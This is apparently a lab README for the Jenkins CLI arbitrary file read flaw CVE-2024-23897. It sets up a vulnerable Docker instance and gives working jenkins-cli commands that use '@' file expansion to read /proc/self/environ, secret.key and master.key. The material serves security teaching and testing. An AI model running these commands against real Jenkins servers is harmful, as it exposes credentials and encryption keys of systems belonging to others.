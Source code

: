 # Jenkins Arbitrary File Read Vulnerability Through the CLI (CVE-2024-23897)

[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is an open source automation server.

Jenkins uses the [args4j library](https://github.com/kohsuke/args4j) to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser has a feature that replaces an `@` character followed by a file path in an argument with the file’s contents (expandAtFiles), which leads attackers to read arbitrary files from Jenkins server.

This vulnerability affects Jenkins prior to 2.441.

References:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## Vulnerable Environment

Execute following command to start a Jenkins server 2.441:

```
docker compose up -d
```

You can access the Jenkins server through `http://your-ip:8080/` after the server is started. Default administrator's username and password are `admin` and `vulhub`.

## Exploit

First, you should download the command-line client `jenkins-cli.jar` by `http://localhost:8080/jnlpJars/jenkins-cli.jar`.

Read the file `/proc/self/environ` to get the Jenkins base directory, `JENKINS_HOME=/var/jenkins_home`:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/proc/self/environ"
```

![](1.png)

Then, you can use it to retrieve sensitive files such as `secrets.key` or `master.key` (anonymously, only the first line of the file can be read via an error on the command line):

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

You can also read full content of file if you have a valid user, for example:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http -auth "admin:vulhub" version "@/var/jenkins_home/"
```

![](4.png)
